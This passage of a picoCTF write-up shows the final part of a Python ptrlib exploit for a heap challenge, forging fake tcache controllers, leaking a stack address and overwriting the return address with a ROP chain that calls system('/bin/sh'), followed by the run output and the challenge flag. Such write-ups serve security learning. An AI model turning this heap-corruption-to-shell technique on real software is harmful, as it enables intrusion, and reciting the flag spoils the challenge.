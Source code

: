 ```python
# tamper the fake tcachebins controller
sock.sendafter(":[PKT_RES]\n", p64(0x22000))
sock.sendline(
    p64(0x0) + b"F" * 0x466D8 + p64(heap_base + 0x21CB0)[:-1]
)  # -> fake tcachebins controller no.2

# stack address leak
sock.sendafter(":[PKT_RES]\n", p64(0x18))
sock.sendline(p64(0x1)[:-1])
sock.recvuntil(":[")
stack_leak = sock.recvuntil("]\n", drop=True)
logger.info(f"stack leak address: {hex(u64(stack_leak))}")
return_address = u64(stack_leak) - 0x150
logger.info(f"return address: {hex(return_address)}")

# fake tcachebins controller no.3
sock.sendafter(":[PKT_RES]\n", p64(0x90))
sock.sendline(
    p64(0x1) + p64(0x1) + p64(0x0) * 0xF + p64(return_address - 0x18)[:-1]
)  # return address - 0x18

# tamper the fake tcachebins controller
sock.sendafter(":[PKT_RES]\n", p64(0x22000))
sock.sendline(
    p64(0x0) + b"G" * 0x696D8 + p64(heap_base + 0x21D50)[:-1]
)  # -> fake tcachebins controller no.3

# tamper the return address
sock.sendafter(":[PKT_RES]\n", p64(0x18))
payload = p64(next(libc.gadget("pop rdi; ret;")))
payload += p64(next(libc.search("/bin/sh")))
payload += p64(next(libc.gadget("ret;")))
payload += p64(libc.symbol("system"))
sock.sendline(p64(0x0) + b"H" * 0x18 + payload)

sock.sh()
```
Execute.  
```bash
$ python exploit.py
[+] __init__: Successfully connected to tethys.picoctf.net:50123
[+] <module>: heap base address: 0x558993106000
[+] base: New base address: 0x7fd70d34c000
[+] <module>: stack leak address: 0x7ffe36a47c98
[+] <module>: return address: 0x7ffe36a47b48
[ptrlib]$ ls
[ptrlib]$ Makefile
artifacts.tar.gz
flag.txt
hft
libc.so.6
main.c
metadata.json
profile
cat flag.txt
[ptrlib]$ picoCTF{mm4p_mm4573r_de3d190b}
```
The shell was removed, and the flag was written on the flag.txt.  

## picoCTF{mm4p_mm4573r_de3d190b}